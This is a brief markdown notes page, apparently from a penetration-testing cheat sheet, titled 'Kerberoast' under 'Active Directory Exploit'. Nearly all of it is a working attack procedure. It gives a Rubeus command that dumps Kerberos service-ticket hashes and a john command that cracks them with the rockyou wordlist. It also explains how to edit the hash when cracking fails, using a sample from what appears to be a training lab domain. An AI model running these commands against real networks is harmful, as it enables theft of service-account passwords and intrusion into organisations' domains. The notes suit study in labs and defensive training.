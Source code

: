 ```yaml
---
title: Kerberoast
parent: Active Directory Exploit
layout: default
nav_order: 1
---
```


`Rubeus.exe kerberoast /simple /nowrap`\
Save the results as hash.txt. Then use john to crack.\
`john --format=krb5tgs --wordlist=/usr/share/seclists/rockyou.txt hash.txt`\
If John doesn't work, remove the SPN so it become something like this:
`$krb5tgs$23$*mssql_svc$dev.cyberbotic.io*$6A9E[blah]`